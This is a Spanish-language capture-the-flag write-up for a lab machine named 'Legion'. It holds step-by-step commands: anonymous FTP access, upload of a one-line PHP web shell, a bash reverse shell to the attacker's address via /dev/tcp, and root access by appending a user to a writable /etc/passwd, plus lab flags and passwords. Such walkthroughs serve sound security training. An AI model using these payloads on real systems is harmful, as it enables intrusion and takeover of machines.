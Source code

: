 # Manual de Pentesting - Maquina: **Legion**

**Este write-up forma parte del laboratorio de HackJourney. Para más información, visita [www.hackjourney.com](https://www.hackjourney.com)**

## 1. Escaneo de puertos y servicios

### Comando utilizado:

```
nmap -sC -sV -oN nmap-inicial 10.10.50.164
```

### Puertos abiertos:

- **21/tcp (FTP)** — vsftpd 3.0.3
    
- **80/tcp (HTTP)** — Apache httpd 2.4.56
    

---

## 2. Análisis del servicio FTP

### Acceso anónimo:

Se intentó el acceso anónimo:

```
ftp 10.10.50.164
```

- Usuario: `anonymous`
    
- Contraseña: (vacía)
    

Ingreso exitoso. Se listaron los archivos:

```
ls
```

Se descargaron:

```
get key.keyx
get mydb.kdbx
```

Archivos descargados:

- `key.keyx`
    
- `mydb.kdbx`
    

---

## 3. Exploración del servicio HTTP

### Navegación manual:

Acceso mediante navegador:

```
http://10.10.50.164
```

Se visualizó una página inicial simple (`index.html`).

### Fuzzing de directorios:

```
dirb http://10.10.50.164/
```

No se encontraron directorios útiles adicionales en esta etapa.

---

## 4. Análisis del archivo KeePass (.kdbx)

### Herramienta utilizada:

```
sudo apt install keepassxc
keepassxc mydb.kdbx
```

Se cargó la base de datos `mydb.kdbx` utilizando el archivo llave `key.keyx`.

Credenciales obtenidas:

- Usuario: **gfawkes**
    
- Contraseña: **Gunpowder1605Plot**
    

---

## 5. Acceso con nuevas credenciales por FTP

### Conexión:

```
ftp 10.10.50.164
Username: gfawkes
Password: Gunpowder1605Plot
```

Una vez dentro se descubrió el directorio:

- `/secretuploads/`
    

Desde Kali se creó el archivo `shell2.php` con el siguiente contenido:

```
<?php system($_GET['cmd']); ?>
```

Se subió con:

```
put shell2.php
```

### Navegación:

```
http://10.10.50.164/secretuploads/shell2.php?cmd=whoami
```

Conexión obtenida como `www-data`.

---

## 6. Obtención de una Reverse Shell

### Listener en Kali:

```
nc -nlvp 4444
```

### Ejecución de la reverse shell en navegador:

```
http://10.10.50.164/secretuploads/shell2.php?cmd=bash -c 'bash -i >& /dev/tcp/10.8.0.8/4444 0>&1'
```


Cambio de usuario:

```
su gfawkes
# Password: Gunpowder1605Plot
```

**Flag de usuario obtenida:**

```
cat /home/gfawkes/user.txt
218827f3d2ebff25c96af6aa1bcbe1df
```

---

## 7. Escalada de privilegios a root

### Análisis:

Se identificaron archivos escribibles por root con:

```
find / -writable -not -path "/proc/*" -user root 2>/dev/null
```

Entre ellos, se encontró:

- `/etc/passwd`
    

Se verificaron sus permisos:

```
ls -l /etc/passwd
# -rw-rw-rw- 1 root root 1187 Jan  7 17:19 /etc/passwd
```

Se validó su contenido:

```
cat /etc/passwd
```

### Creación de un nuevo usuario root:

Generación del hash (realizada desde Kali):

```
openssl passwd -1 -salt saul Escal4d0r!
# $1$saul$tUZi0uhpKXzJ3Hlt1dSAo0
```

Inyección del usuario en `/etc/passwd`:

```
echo 'saul:$1$saul$tUZi0uhpKXzJ3Hlt1dSAo0:0:0:root:/root:/bin/bash' >> /etc/passwd
```

Cambio de usuario:

```
su saul
# Password: Escal4d0r!
```

Confirmación:

```
whoami && id
root
```

**Flag de root obtenida:**

```
cat /root/root.txt
2e8266e1be13ed5d7defb2d331da7a6e
```

---

## 8. Herramientas utilizadas

- `nmap`
    
- `ftp`
    
- `dirb`
    
- `keepassxc`
    
- `openssl`
    
- `nc (netcat)`
    

---

## 9. Resumen del ataque

1. Acceso anónimo FTP para obtener `mydb.kdbx` y `key.keyx`.
    
2. Crackeo de la base de datos KeePass con `keepassxc`.
    
3. Login FTP como `gfawkes` y descubrimiento de `/secretuploads`.
    
4. Creación y subida de `shell2.php`.
    
5. Reverse shell a Kali.
    
6. Cambio de usuario a `gfawkes`.
    
7. Escalada de privilegios editando `/etc/passwd`.
    
8. Acceso como `root` y captura de ambas flags.